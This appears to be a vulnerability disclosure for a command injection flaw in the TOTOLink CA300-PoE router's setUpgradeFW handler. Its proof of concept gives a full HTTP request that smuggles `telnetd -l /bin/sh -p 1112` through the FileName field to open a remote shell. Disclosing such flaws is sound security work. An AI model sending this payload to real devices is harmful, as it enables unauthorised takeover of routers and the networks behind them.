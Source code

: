 # TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `upgrade.so` binary:

In `setUpgradeFW` function, `FileName` is directly passed by the attacker, so we can control the `FileName` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `FileName` as **`telnetd -l /bin/sh -p 1112`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/status.asp
Cookie: SESSION_ID=2:1750081276:2
Pragma: no-cache
Cache-Control: no-cache

{"topicurl":"setting/setUpgradeFW","FileName":"`telnetd -l /bin/sh -p 1112`","ContentLength":"1"}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
